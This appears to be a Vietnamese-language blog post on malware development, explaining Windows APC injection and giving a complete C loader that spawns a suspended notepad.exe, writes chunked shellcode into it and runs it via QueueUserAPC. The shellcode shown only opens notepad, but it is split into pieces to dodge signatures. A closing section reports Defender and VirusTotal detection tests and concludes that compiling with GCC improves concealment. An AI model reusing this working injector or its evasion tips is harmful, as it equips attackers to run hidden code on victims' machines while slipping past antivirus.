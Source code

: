 ## APC Injection

### Logic hoạt động
Sử dụng `QueueUserAPC` API để xếp hàng vào 1 APC, tham số và cách sử dụng của hàm này xem tại trang của microsoft: [QueueUserAPC](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc).

Sau khi gọi API trên, APC function được thực thi đã được cài đặt thông qua QueueUserAPC, process cần phải được đặt trong trạng thái cảnh báo (alertable state). Điều này có thể đạt được bằng cách tạo 1 thread sau đó sử dụng các API sau:

- `Sleep`
- `SleepEx`
- `MsgWaitForMultipleObjects`
- `MsgWaitForMultipleObjectsEx`
- `WaitForSingleObject`
- `WaitForSingleObjectEx`
- `WaitForMultipleObjects`
- `WaitForMultipleObjectsEx`
- `SignalObjectAndWait`

Ngoài ra, còn 2 cách nữa đó là:

- Tạo tiến trình với trạng thái `CREATE_SUSPENDED` và sau đó sử dụng `ResumeThread`
- Tạo tiến trình với trạng thái `DEBUG_PROCESS` và sau đó sử dụng `DebugActiveProcessStop` để tiếp tục tiến trình.

### Code
Phần code khá đơn giản so với các kiểu inject khác, dưới đây là code inject vào remote process để thực thi tải trọng mở notepad.
Mã tải trọng được tạo ra đã được nhắc đến trong 1 bài viết khác của tôi: [Payload Placement](../25-12-2023 Payload Placement/Payload Placement.md)


```c
# include <Windows.h>
# include <stdio.h>

BOOL RunViaApcInjection(IN HANDLE hThread, IN HANDLE hProcess, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {
	PVOID pAddress = NULL;
	DWORD dwOldProtection = NULL;

	pAddress = VirtualAllocEx(hProcess, NULL, sPayloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pAddress == NULL) {
		printf("\t[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	if (!WriteProcessMemory(hProcess, pAddress, pPayload, sPayloadSize, NULL)) {
		printf("\t[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	if (!VirtualProtectEx(hProcess, pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("\t[!] VirtualProtect Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	if (!QueueUserAPC((PAPCFUNC)pAddress, hThread, NULL)) {
		printf("\t[!] QueueUserAPC Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

BOOL CreateSuspendedProcess(IN LPCSTR lpProcessPath, OUT DWORD* dwProcessId, OUT HANDLE* hProcess, OUT HANDLE* hThread) {
	STARTUPINFOA si = { 0 };
	PROCESS_INFORMATION pi = { 0 };

	si.cb = sizeof(STARTUPINFOA);

	if (!CreateProcessA(NULL, lpProcessPath, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {
		printf("[!] CreateProcessA Failed with Error : %d \n", GetLastError());
		return FALSE;
	}

	*dwProcessId = pi.dwProcessId;
	*hProcess = pi.hProcess;
	*hThread = pi.hThread;

	if (*dwProcessId != NULL && *hProcess != NULL && *hThread != NULL) {
		return TRUE;
	}

	return FALSE;
}

unsigned char sc_0[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51";
const unsigned char sc_1[] = "\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52";
unsigned char sc_2[] = "\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0";
const unsigned char sc_3[] = "\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed";
unsigned char sc_4[] = "\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88";
const unsigned char sc_5[] = "\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44";
unsigned char sc_6[] = "\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48";
const unsigned char sc_7[] = "\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1";
unsigned char sc_8[] = "\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44";
const unsigned char sc_9[] = "\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49";
unsigned char sc_10[] = "\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a";
const unsigned char sc_11[] = "\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41";
unsigned char sc_12[] = "\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00";
const unsigned char sc_13[] = "\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b";
unsigned char sc_14[] = "\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff";
const unsigned char sc_15[] = "\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47";
unsigned char sc_16[] = "\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x6e\x6f\x74\x65\x70";
const unsigned char sc_17[] = "\x61\x64\x2e\x65\x78\x65\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";

unsigned char sc[18 * 16];
void build_sc() {
	memcpy(&sc[0], sc_0, 16);
	memcpy(&sc[16 * 1], sc_1, 16);
	memcpy(&sc[16 * 2], sc_2, 16);
	memcpy(&sc[16 * 3], sc_3, 16);
	memcpy(&sc[16 * 4], sc_4, 16);
	memcpy(&sc[16 * 5], sc_5, 16);
	memcpy(&sc[16 * 6], sc_6, 16);
	memcpy(&sc[16 * 7], sc_7, 16);
	memcpy(&sc[16 * 8], sc_8, 16);
	memcpy(&sc[16 * 9], sc_9, 16);
	memcpy(&sc[16 * 10], sc_10, 16);
	memcpy(&sc[16 * 11], sc_11, 16);
	memcpy(&sc[16 * 12], sc_12, 16);
	memcpy(&sc[16 * 13], sc_13, 16);
	memcpy(&sc[16 * 14], sc_14, 16);
	memcpy(&sc[16 * 15], sc_15, 16);
	memcpy(&sc[16 * 16], sc_16, 16);
	memcpy(&sc[16 * 17], sc_17, 16);
}

int main() {
	build_sc();

	DWORD dwProcessId;
	HANDLE hProcess, hThread;
	
	if (!CreateSuspendedProcess("C:\\Windows\\System32\\notepad.exe", &dwProcessId, &hProcess, &hThread)) {
		printf("[!] CreateSuspendedProcess Failed\n");
		return -1;
	}
	
	if (!RunViaApcInjection(hThread, hProcess, sc, sizeof(sc))) {
		printf("[!] RunViaApcInjection Failed\n");
		return -1;
	}

	ResumeThread(hThread);
	//DebugActiveProcessStop(dwProcessId);
	printf(
		"Done"
	);
}
```



### Check AV Windows 10 Defender
- VS2022: Build no debug info + MT release, bị phát hiện mã độc ngay khi build xong, và chuyển qua máy ảo mà chưa cần chạy (Virus total: 22/72)
- GCC: Với phiên bản shellcode lỗi, quá trình chạy không gây ra vấn đề gì (vấn đề nằm ở shellcode)
- GCC: Với phiên bản shellcode chuẩn, scan không bị phát hiện, chạy cũng không bị phát hiện trên máy ảo, tuy nhiên vẫn có khả năng bị phát hiện do shellcode được giải mã và có signature. (Virus total: 21/73)
 
=> Việc build bằng GCC có thể giúp tăng khả năng che dấu của mã.
